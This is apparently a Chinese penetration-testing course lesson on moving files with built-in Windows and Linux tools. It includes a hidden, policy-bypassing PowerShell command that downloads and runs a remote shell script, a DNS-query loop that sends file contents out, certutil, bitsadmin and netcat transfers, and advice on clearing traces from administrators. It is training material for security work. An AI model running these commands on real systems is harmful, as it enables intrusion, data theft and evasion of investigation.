


# 🛠️ 课程P60：第26天 - 系统文件传输方法详解


在本节课中，我们将学习在Windows和Linux系统下，利用系统自带工具或脚本环境进行文件传输的各种方法。这些技巧在渗透测试和日常运维中至关重要，能帮助我们在受限环境下上传或下载所需文件。


---


## 🪟 Windows系统下的文件传输

上一节我们概述了课程内容，本节中我们来看看Windows系统下常用的文件传输方法。Windows系统自带了许多命令行工具，我们可以利用它们来下载或上传文件，而无需额外安装软件。

### 清除操作痕迹


执行某些操作后，需要清除系统缓存以隐藏我们的活动痕迹。这样做的目的是避免管理员在后续溯源时，发现我们使用的木马或攻击方法。


例如，系统缓存目录可能记录了所使用的木马内容。管理员进行渗透测试后的溯源分析时，可以检查这些目录。我们可以使用特定命令来清除这些缓存。


清除缓存的命令很简单，在基础命令后添加 `/del` 或 `-delete` 参数即可。执行后，原本存在于目录下的缓存文件就会被删除，从而清除了操作痕迹。


### 利用系统自带命令行工具





前面的方法利用了Windows系统自带的命令行工具。这些工具是系统原生存在的，我们可以利用它们来下载已生成好的木马或其他工具文件。


以下是几种常见的方法：

1.  **Certutil工具**：
    `certutil -urlcache -split -f http://example.com/file.exe localfile.exe`
    此命令可用于从指定URL下载文件。


2.  **Bitsadmin工具**：
    `bitsadmin /transfer myJob http://example.com/file.exe C:\localfile.exe`
    此命令利用后台智能传输服务下载文件。


3.  **PowerShell**：
    这是功能非常强大的命令行工具，我们将在下一节详细讲解。


---


## ⚡ 使用PowerShell进行文件传输


上一节我们介绍了基础的Windows命令行工具，本节中我们重点看看功能更强大的PowerShell。在信息收集阶段我们已经接触过它，现在学习如何用它进行文件下载与执行。


### PowerShell基础与对象创建


首先，在cmd中直接输入 `powershell` 即可进入PowerShell环境。其命令行提示符前通常有一个 `PS` 标识。


我们来看第一个语句，它将文件下载功能分成了两部分以便理解：
```powershell
$p = New-Object System.Net.WebClient
```
第一部分通过 `New-Object` 创建了一个 `System.Net.WebClient` 对象，并将其赋值给变量 `$p`（`$`符号表示变量）。`New-Object` 用于创建对象实例。


`System.Net.WebClient` 对象提供了用于发送和接收URI标识资源数据的常用方法。这意味着我们可以通过该对象来请求并下载网络资源。


如果不理解这部分，可以参考预习资料中的PowerShell官方文档和关于常用.NET对象的文章，其中详细说明了 `System.Net.WebClient` 的作用。


### 下载文件的方法


创建对象后，第二部分调用该对象的 `DownloadFile` 方法：
```powershell
$p.DownloadFile("http://example.com/file.hta", ".\file.hta")
```
`DownloadFile` 是该对象提供的方法，从字面意思可知其用于下载文件。它会获取指定URL的资源，并保存到本地指定路径。


我们以下载一个 `44.hta` 文件为例。执行上述两条命令后，即可在当前目录下生成该文件，表明下载成功。


### 合并命令与常用参数


实际操作中，我们可能需要在非持久化的PowerShell环境下（如通过Cobalt Strike执行单条命令）完成下载。这时，将多条语句合并为一行更为方便。




我们可以使用 `-c`（或 `-Command`）参数来执行指定的命令字符串：
```powershell
powershell -c "$p=New-Object System.Net.WebClient;$p.DownloadFile('http://example.com/44.hta','44.hta')"
```
这条命令通过分号分隔，将对象创建和下载操作合并在一行中执行。


`-c` 是PowerShell的一个常用参数，表示执行后续字符串中的命令。可以通过 `powershell -?` 查看所有可用参数及其说明。


### 其他下载写法与Invoke-WebRequest


除了 `WebClient`，PowerShell还有更简洁的写法：
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://example.com/44.hta', 's.txt')
```
其作用与前述方法相同，只是语法更简洁。


另一种常用的方法是使用 `Invoke-WebRequest` cmdlet：
```powershell
powershell -c "Invoke-WebRequest -Uri http://example.com/44.hta -OutFile D:\44.hta"
```
`Invoke-WebRequest` 可用于发起网络请求。通过 `-OutFile` 参数可将请求的资源保存为本地文件。


我们可以通过 `help Invoke-WebRequest` 命令查看其详细用法。其中，`-Uri` 指定资源地址，`-OutFile` 指定本地保存路径。


**注意**：在cmd环境中调用PowerShell命令时，需要在命令前加上 `powershell`。如果已处于PowerShell环境中，则无需添加，否则会报错。

### 别名与远程脚本加载

`Invoke-WebRequest` 有别名 `iwr` 和 `wget`，它们的功能是等价的：
```powershell
powershell -c "iwr http://example.com/44.hta -OutFile 44.hta"
powershell -c "wget http://example.com/44.hta -OutFile 44.hta"
```
如果记不住长命令，可以使用这些别名。


PowerShell的一个强大功能是能直接加载并执行远程脚本。例如，加载一个远程的PowerShell脚本来反弹Shell：
```powershell
powershell -w hidden -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://example.com/shell.ps1')"
```
*   `-w hidden`：隐藏执行窗口。
*   `-exec bypass`：绕过执行策略限制。
*   `IEX`：`Invoke-Expression` 的别名，将字符串作为命令执行。
*   `DownloadString`：将远程脚本内容加载到内存中执行，无文件落地。


Windows默认执行策略可能禁止运行脚本。通过 `-exec bypass` 可以绕过此限制。其他策略包括 `Restricted`（默认，禁止脚本）、`RemoteSigned`（允许本地和签名远程脚本）等。

---


## 🐧 Linux系统下的文件传输


上一节我们深入探讨了Windows下的PowerShell，本节中我们转向Linux系统。相比Windows，Linux下的文件传输命令通常更为简单直接。


以下是Linux下常用的文件下载命令：


1.  **wget命令**：
    最常用的下载工具之一。
    ```bash
    wget http://example.com/file.txt
    wget -O newname.txt http://example.com/file.txt
    ```
    使用 `-O` 参数可以指定保存的文件名。

2.  **curl命令**：
    强大的网络数据传输工具，支持多种协议。
    ```bash
    curl -o file.txt http://example.com/file.txt
    curl http://example.com/file.txt > file.txt
    ```

3.  **nc (netcat) 命令**：
    “网络瑞士军刀”，也可用于文件传输。
    *   **发送文件**（接收方监听）：
        ```bash
        # 接收方监听端口
        nc -lvp 1234 > received_file
        # 发送方发送文件
        cat file_to_send | nc 接收方IP 1234
        ```
    *   **接收文件**（发送方监听）：
        ```bash
        # 发送方监听并准备文件
        nc -lvp 1234 < file_to_send
        # 接收方连接并获取文件
        nc 发送方IP 1234 > received_file
        ```
    其原理是利用管道 `|` 和重定向 `>` 将文件内容通过网络端口传递。

4.  **sftp命令**：
    基于SSH的安全文件传输。
    ```bash
    sftp user@remote_host
    sftp -P 2222 user@remote_host
    sftp -i private_key user@remote_host
    ```
    使用 `-P` 指定端口，`-i` 指定私钥文件进行免密登录。

5.  **DNS隧道传输数据（技巧）**：
    一个特殊技巧，通过DNS查询泄露数据。
    ```bash
    cat test.txt | xxd -p -c 16 | while read line; do dig $line.domain.com; done
    ```
    *   `xxd -p -c 16`：将文件内容每16字节转换为一行十六进制字符串。
    *   `while read line; do ... done`：循环读取每一行。
    *   `dig $line.domain.com`：将每行数据作为子域名进行DNS查询，数据会记录在DNS日志中。
    攻击者可在DNS日志平台收集这些子域名记录，然后重组并解码十六进制字符串，即可获取文件内容。这种方法常用于无外网出口时的数据外带。


---

## 📜 利用脚本语言进行文件传输

上一节我们介绍了Linux下的各种命令，本节我们看看当系统命令不可用时，如何利用常见的脚本语言环境进行文件传输。在Web服务器等环境中，通常存在PHP、Python等运行时，我们可以加以利用。


### PHP


利用 `file_get_contents` 和 `file_put_contents` 函数。
```php
<?php
    $content = file_get_contents('http://example.com/file.txt');
    file_put_contents('local.txt', $content);
?>
```
*   `file_get_contents`：将整个文件读入字符串。
*   `file_put_contents`：将字符串写入文件。


可以直接在命令行使用 `-r` 参数执行PHP代码，无需 `<?php ?>` 标签：
```bash
php -r "$c=file_get_contents('http://example.com/file.txt'); file_put_contents('local.txt',$c);"
```


### Python


Python使用 `urllib` 或 `requests` 库。
```bash
# Python 2
python -c "import urllib; urllib.urlretrieve('http://example.com/file.txt', 'local.txt')"


# Python 3
python3 -c "import urllib.request; urllib.request.urlretrieve('http://example.com/file.txt', 'local.txt')"
```
`-c` 参数允许在命令行中直接执行Python代码。

### Perl 和 Ruby


这两种脚本语言也能实现类似功能。
```bash
# Perl
perl -e "use LWP::Simple; getstore('http://example.com/file.txt', 'local.txt');"


# Ruby
ruby -e "require 'open-uri'; File.write('local.txt', URI.open('http://example.com/file.txt').read)"
```

**核心思路**：当目标系统存在特定的脚本运行环境（如Web服务器常备PHP、Python）但缺少系统下载命令时，优先考虑使用这些环境对应的脚本语言来完成任务。

---


## 📝 总结

本节课中，我们一起学习了在不同操作系统环境下进行文件传输的多种方法。


*   在 **Windows** 下，我们主要利用系统自带的 `certutil`、`bitsadmin` 以及功能强大的 **PowerShell**。PowerShell可以通过 `WebClient` 对象、`Invoke-WebRequest` 以及远程加载脚本 (`IEX + DownloadString`) 等方式灵活地下载文件或执行代码，并需要注意执行策略和隐藏窗口等参数。
*   在 **Linux** 下，我们学习了 `wget`、`curl`、`nc`、`sftp` 等标准命令，还了解了一个通过 **DNS隧道外带数据** 的特殊技巧。
*   最后，我们探讨了当系统命令不可用时，如何利用 **脚本语言环境**（如PHP、Python、Perl、Ruby）来实现文件传输，这是在Web渗透中常见的备用手段。


掌握这些方法能帮助我们在各种受限环境下，更有效地进行文件操作和后续渗透测试工作。请大家务必在课后动手实践，加深理解。